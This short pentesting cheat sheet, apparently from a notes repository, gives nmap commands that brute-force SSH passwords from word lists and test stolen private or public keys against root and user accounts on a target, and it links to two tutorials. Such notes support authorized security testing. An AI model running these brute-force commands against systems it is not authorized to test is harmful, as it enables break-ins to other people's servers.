# Nmap

- Bruteforce SSH credentials

```
$ nmap -p 22 -Pn -n --script ssh-brute --script-args "userdb=users.lst,passdb=pass.lst,ssh-brute.timeout=<seconds>s" <IP>
```

- Bruteforce SSH Public Keys

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" <IP>

$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'},publickeys={'./id_rsa1.pub', './id_rsa2.pub'}" <IP>
```

---
## References

- [Null Byte: Gain SSH Access to Servers by Brute-Forcing Credentials](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)
